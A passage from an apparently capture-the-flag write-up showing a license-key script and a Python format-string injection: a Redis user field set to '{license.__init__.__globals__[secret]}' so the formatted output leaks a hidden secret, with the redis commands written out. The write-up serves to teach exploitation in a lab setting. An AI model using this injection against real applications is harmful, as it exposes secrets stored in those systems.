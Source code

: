It prints the plaintext and encrypted keys to the console, and writes the key to the `keys` file:

```

    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
    print(license_key)
    print("")
    license_key_encoded = license_key.encode()
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

```

### Recover Secret

#### Strategy

The trickiest part here is realizing that I need to recover the hidden secret.

What is working to my benefit is that I control the other variables printed to the screen. [This Stack Exchange answer](https://security.stackexchange.com/a/239661) lays out really nicely how to attack this. [This post](https://levelup.gitconnected.com/when-you-should-not-use-f-strings-in-python-and-what-you-should-use-instead-3b89718757bd) goes into more detail as well.

Because I can control the template, then I can specify what happens in the `format`.

I’ll use my access to Redis to create a user where the last name is an injection like `{license.__init__.__globals__[secret]}`. That will make the format string look like:

```

microblog{username}{license.license}{first-name}{license.__init__.__globals__[secret]}

```

When that gets formatted, it should print the secret.

#### Execute

In Redis, I’ll start with a new user, rooted:

```

redis /var/run/redis/redis.sock> hset rooted username rooted
(integer) 1
redis /var/run/redis/redis.sock> hset rooted first-name "password:"
(integer) 1
redis /var/run/redis/redis.sock> hset rooted last-name "{license.__init__.__globals__[secret]}"
(integer) 1

```
